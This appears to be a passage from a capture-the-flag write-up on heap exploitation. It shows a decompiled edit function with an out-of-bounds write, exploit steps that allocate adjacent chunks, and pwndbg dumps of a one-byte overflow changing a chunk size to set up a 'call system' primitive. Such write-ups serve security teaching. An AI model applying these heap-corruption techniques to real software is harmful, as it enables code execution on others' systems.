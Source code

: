 ### Call system
---
To call the system we will need a couple of steps, first let's remember how we can write out-of-bounds.
```C
unsigned __int64 __fastcall edit_plan(__int64 plans)
{
  // ...
  size = strlen(*(const char **)(8LL * plan_index + plans));
  read(0, *(void **)(8LL * plan_index + plans), size);
  return __readfsqword(0x28u) ^ canary;
}
```
If we just fill up the buffer we can write out of bounds for a bit (until a ``0x00``), for what we need to do we just need 1 byte (which we surely have because ``size`` is always set in a valid chunk).

Let's walk the exploit step by step (full code at the end)

We first create 3 plans of the same lenght and fill them, we are sure they will be adjacent.
```py
create_plan(0x48, b"x"*0x48)
create_plan(0x48, b"y"*0x48)
create_plan(0x48, b"z"*0x48)
```
Let's make sure of it from ``pwndbg``!
```py
0x5ddc07101660	0x0000000000000000	0x0000000000000051	........Q....... # First
0x5ddc07101670	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc07101680	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc07101690	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc071016a0	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc071016b0	0x7878787878787878	0x0000000000000051	xxxxxxxxQ....... # Second
0x5ddc071016c0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016d0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016e0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016f0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc07101700	0x7979797979797979	0x0000000000000051	yyyyyyyyQ....... # Third
0x5ddc07101710	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101720	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101730	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101740	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101750	0x7a7a7a7a7a7a7a7a	0x0000000000000331	zzzzzzzz1.......	 <-- unsortedbin[all][0]
0x5ddc07101760	0x000075e1a13ebca0	0x000075e1a13ebca0	..>..u....>..u..
```

Now let's overflow into the second chunk from the first and change it's size from ``0x51`` to ``0x80``
```py
edit_plan(0, b"x"*0x48 + p8(0x80))
```
Looking at the heap now: (``pwndbg`` will spam a bit, you can limit it with ``set max-visualize-chunk-size <n>``)
```py
0x5ddc07101660	0x0000000000000000	0x0000000000000051	........Q....... # First
0x5ddc07101670	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc07101680	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc07101690	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc071016a0	0x7878787878787878	0x7878787878787878	xxxxxxxxxxxxxxxx
0x5ddc071016b0	0x7878787878787878	0x0000000000000080	xxxxxxxx........ # Second (new size!)
0x5ddc071016c0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016d0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016e0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016f0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc07101700	0x7979797979797979	0x0000000000000051	yyyyyyyyQ....... # Third
```